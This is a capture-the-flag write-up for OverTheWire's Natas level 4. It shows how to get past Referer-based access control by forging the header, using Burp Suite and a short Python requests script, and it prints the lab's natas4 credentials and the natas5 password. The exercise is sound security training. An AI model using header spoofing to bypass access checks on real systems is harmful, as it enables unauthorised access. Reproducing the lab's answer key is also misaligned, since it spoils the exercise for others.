

# Natas Level 4 Writeup (natas4) – OverTheWire

## Overview

This level focuses on bypassing access control based on the HTTP `Referer` header.   
The goal is to find the password for the next level.

## Observation

When we open the website, we see the message:

> **"Access disallowed. You are visiting from '' while authorized users should come only from 'http://natas5.natas.labs.overthewire.org/'"**

This indicates that access is restricted based on the `Referer` header.

## Finding the Password

### Using Browser and Burp Suite
1. Intercept the request using Burp suite.
2. Forward the request to Repeater.
3. Modify the `Refrer` header to:
```html
Referer: http://natas5.natas.labs.overthewire.org/
```
   
4. Send the request. 
  - The Server grants access and reveals the password.

#### Proof
```text
Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
```

### Using Python

```python
import requests

url = "http://natas4.natas.labs.overthewire.org/"
auth = ("natas4", "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ")

header = {
    'Referer': 'http://natas5.natas.labs.overthewire.org/'
}

res = requests.get(url, auth=auth, headers=header)
print(res.text)
```

## Vulnerability

Access control is implemented using the HTTP `Referer` header, which can be easily manipulated by the client.


## Flag
`0n35PkggAPm2zbEpOU802c0x0Msn1ToK`

